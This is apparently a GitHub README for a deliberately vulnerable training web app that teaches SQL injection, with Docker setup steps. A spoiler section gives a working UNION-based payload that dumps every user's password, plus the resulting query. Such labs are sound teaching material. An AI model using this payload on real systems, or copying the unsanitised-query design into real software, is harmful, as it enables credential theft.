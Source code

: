 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
  <summary>Warning ! Contains spoilers !</summary><p>
    Here is an example of a working payload, esposing all passwords in the table:

    ```sql
    nothing%" UNION SELECT pass, nickname, email FROM users#
    ```

    Resulting in the following complete query :

    ```sql
    SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
    ```
</p></details>
